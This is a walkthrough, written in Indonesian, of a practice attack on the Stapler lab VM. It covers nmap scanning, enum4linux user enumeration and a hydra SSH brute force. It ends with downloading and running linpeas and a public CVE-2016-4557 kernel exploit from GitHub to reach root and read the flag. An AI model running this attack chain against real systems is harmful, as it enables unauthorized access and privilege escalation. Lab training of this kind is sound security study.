 # Laporan Serangan Server Stapler

Ini adalah hasil serangan yang telah dilakukan pada server Stapler untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : `ip a` atau `ifconfig` 
- nmap: `nmap -sP <network_id>/<prefix>`
- uji koneksi, kali linux dan server Stapler: `ping <ip_server>`
- jika tidak bisa di ping maka lanjut ke scan port

## Scan Port Server dengan NMAP
- nmap : `nmap -sC -sV -A <ip_server>`

**Port** yang terbuka dari server adalah :
- ftp-data (20)
- ftp (21)
- ssh (22)
- domain (53)
- http (80)
- samba smbd (139)
- doom (666)
- mysql (3306)

## Access Domain (53)
- gunakan tool enum : `enum4linux <ip_server>`
- scroll kebawah temukan user dengan (local user)
- misal : **S-1-22-1-1000 Unix User\peter (Local User)**
- maka buat file : **username.txt**
- dan tuliskan list username :
```
peter
RNunemaker
ETollefson
...
...
...
www
elly
```

## Access SSH (22)
- terdapat data user, gunakan hydra
```
hydra -L username.txt -P username.txt ssh://<ip_server>
```
- user : `SHayslett`
- pass : `SHayslett`
- login ssh
```
ssh SHayslett@<ip_server>
```





## Privilege Escalation
- pada **SSH user SHayslett**
- temukan vulnerability untuk access root dengan linpeas
```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220731/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

```
- dan tunggu (lumayan lama)
- scroll ke atas temukan **[CVE 2016 4557] double-fdput**

**Note:** untuk menggunakan CVE cari yang dari sumber **exploit-db** atau **offensive-security**
- jalankan exploit
```
wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/39772.zip
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleputs

```
- temukan flag
```
cat /root/flag.txt
```